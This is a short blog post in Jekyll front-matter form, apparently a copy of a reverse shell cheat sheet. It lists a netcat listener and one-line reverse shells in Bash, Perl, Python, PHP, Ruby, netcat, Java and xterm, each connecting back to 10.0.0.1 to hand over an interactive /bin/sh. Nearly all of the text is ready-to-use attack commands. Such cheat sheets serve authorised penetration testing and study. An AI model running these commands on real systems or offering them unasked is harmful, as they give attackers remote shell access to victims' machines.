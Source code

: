 ```yaml
---
layout: post
title: "reverse shell"
description: ""
category: 
tags: []
---
```


### Listen for 8080 first

<pre>
nc -l -p 8080 -vvv
</pre>

### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

<pre>
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
</pre>

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

<pre>
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
</pre>

There’s also an&nbsp;[alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

<pre>
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
</pre>

### PHP

This code assumes that the TCP connection uses file descriptor 3. &nbsp;This worked on my test system. &nbsp;If it doesn’t work, try 4, 5, 6…

<pre>
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
</pre>

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

<pre>
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
</pre>

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

<pre>
nc -e /bin/sh 10.0.0.1 1234
</pre>

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

<pre>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
</pre>

### Java

<pre>
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
</pre>

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session. &nbsp;The following command should be run on the server. &nbsp;It will try to connect back to you (10.0.0.1) on TCP port 6001.

<pre>
xterm -display 10.0.0.1:1
</pre>

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). &nbsp;One way to do this is with Xnest (to be run on your system):

<pre>
Xnest :1
</pre>

You’ll need to authorise the target to connect to you (command also run on your host):

<pre>
xhost +targetip
</pre>


